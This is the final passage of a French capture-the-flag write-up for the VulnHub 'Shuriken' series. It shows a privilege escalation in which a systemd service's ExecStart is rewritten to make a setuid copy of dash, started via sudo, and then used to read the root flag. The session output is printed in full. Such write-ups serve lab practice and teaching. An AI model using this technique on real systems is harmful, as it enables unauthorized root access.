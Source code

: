 ```systemd
[Unit]
Description=Logs system statistics to the systemd journal
Wants=shuriken-auto.timer

[Service]
# Gather system statistics
Type=oneshot
ExecStart=/bin/df

[Install]
WantedBy=multi-user.target
```

Je remplace juste la ligne `ExecStart` de cette façon :

```systemd
ExecStart=/bin/bash -c "cp /bin/dash /tmp/gotroot; chmod 4755 /tmp/gotroot"
```

```shellsession
serv-adm@shuriken-node:~$ sudo /bin/systemctl start shuriken-auto.timer
serv-adm@shuriken-node:~$ ls -l /tmp/gotroot 
-rwsr-xr-x 1 root root 121432 Nov 14 19:21 /tmp/gotroot
serv-adm@shuriken-node:~$ /tmp/gotroot -p
# id
uid=1000(serv-adm) gid=1000(serv-adm) euid=0(root) groups=1000(serv-adm),24(cdrom)
# cd /root
# ls
root.txt
# cat root.txt


  _________.__                 .__ __                        _______             .___      
 /   _____/|  |__  __ _________|__|  | __ ____   ____   /\   \      \   ____   __| _/____  
 \_____  \ |  |  \|  |  \_  __ \  |  |/ // __ \ /    \  \/   /   |   \ /  _ \ / __ |/ __ \ 
 /        \|   Y  \  |  /|  | \/  |    <\  ___/|   |  \ /\  /    |    (  <_> ) /_/ \  ___/ 
/_______  /|___|  /____/ |__|  |__|__|_ \\___  >___|  / \/  \____|__  /\____/\____ |\___  >
        \/      \/                     \/    \/     \/              \/            \/    \/ 
                                                     ____
eb38a0b907da3d8b630688cb52b1b584                    /   /
                                                   /   /
                      __             .___  ____   /   /                                      
_______  ____   _____/  |_  ____   __| _/  \   \ /   /                                      
\_  __ \/  _ \ /  _ \   __\/ __ \ / __ |    \   Y   /                                       
 |  | \(  <_> |  <_> )  | \  ___// /_/ |     \     /                                        
 |__|   \____/ \____/|__|  \___  >____ |      \___/                                         
                               \/     \/     
=============================
Author: LoneW0lf
=============================
Previous machine in the series:
Shuriken: 1 - https://www.vulnhub.com/entry/shuriken-1,600/
=============================
```

C'était sympa d'exploiter une faille de désérialisation, ça change un peu des scénarios classiques :)

*Publié le 14 novembre 2022*
